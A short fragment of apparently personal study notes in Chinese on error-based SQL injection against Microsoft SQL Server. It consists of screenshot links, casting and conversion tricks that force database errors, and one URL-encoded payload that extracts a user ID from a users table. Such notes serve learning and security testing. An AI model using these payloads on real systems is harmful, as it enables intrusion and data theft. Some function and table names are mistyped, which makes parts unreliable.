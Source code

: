 ![image-20210715160910120](websafe/image-20210715160910120.png)

![image-20210715170134400](websafe/image-20210715170134400.png)

![image-20210715173357465](websafe/image-20210715173357465.png)

![image-20210715173739542](websafe/image-20210715173739542.png)

使用top实现limit功能

select count(name) from master.dbo.databases

count

cast(id as nvarchar(4000))  将数字类型的ID转为字符类型

convar(int,db_name())  将db_name转换为int型

然后使用`'~' %2b (select top 1 cast(id as char(4000)) from test..users)%2b'~'-- `
